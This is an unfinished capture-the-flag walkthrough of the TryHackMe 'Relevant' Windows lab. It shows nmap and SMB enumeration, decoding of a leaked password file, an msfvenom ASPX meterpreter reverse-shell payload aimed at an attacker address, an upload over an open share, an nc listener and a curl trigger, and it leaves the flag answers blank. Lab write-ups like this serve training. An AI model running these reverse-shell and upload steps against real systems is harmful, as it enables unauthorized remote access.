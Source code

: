 # [Relevant](https://tryhackme.com/r/room/relevant)

![Relevant](./images/Relevant.png) 

[Relevant](https://tryhackme.com/r/room/relevant) is listed as an Medium room Penetration Testing Challenge. An overview of what we’ll be using is listed here:

* Nmap
* Smbclient
* 

![IP](./images/IP.png)

## Pre-Engagement Briefing

You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in seven days. 

Scope of Work

The client requests that an engineer conducts an assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

* User.txt
* Root.txt

Additionally, the client has provided the following scope allowances:

* Any tools or techniques are permitted in this engagement, however we ask that you attempt manual exploitation first
* Locate and note all vulnerabilities found
* Submit the flags discovered to the dashboard
* Only the IP address assigned to your machine is in scope
* Find and report ALL vulnerabilities (yes, there is more than one path to root)

(Roleplay off)

I encourage you to approach this challenge as an actual penetration test. Consider writing a report, to include an executive summary, vulnerability and exploitation assessment, and remediation suggestions, as this will benefit you in preparation for the eLearnSecurity Certified Professional Penetration Tester or career as a penetration tester in the field.

Note - Nothing in this room requires Metasploit

Machine may take up to 5 minutes for all services to start.

**Writeups will not be accepted for this room.**

### Enumeration & Exploitation

* Port scan with `Nmap`

	```
	nmap -A $IP -oN nmap-scan.txt
	```

	![nmap](./images/nmap.png)

* Listing smb client

	```
	smbclient -L \\$IP
	```

	![smbclient-list](./images/smbclient-list.png)

* Open list drive

	```
	smbclient \\\\$IP\\nt4wrksv
	```

	![smbclient-drive](./images/smbclient-drive.png)

* Download file `password.txt` and view the file

	![file-password](./images/file-password.png)

* Decode the `password.txt` code

	![decode](./images/decode.png)

* Crete payload reverse shell

	```
	msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.17.127.223 LPORT=8888 -f aspx -o shell.aspx
	```

	![payload](./images/payload.png)

* Upload payload

	```
	smbclient \\\\$IP\\nt4wrksv
	put shell.aspx
	```

	![upload](./images/upload.png)

* Set listener on attacker machine

	```
	nc -nvlp 8888
	```
	
	![listener](./images/listener.png)

* Access the payload to get reverse shell

	```
	curl http://10.10.131.206:49663/nt4wrksv/shell.aspx
	```

### Answer the questions below

* User Flag

* Root Flag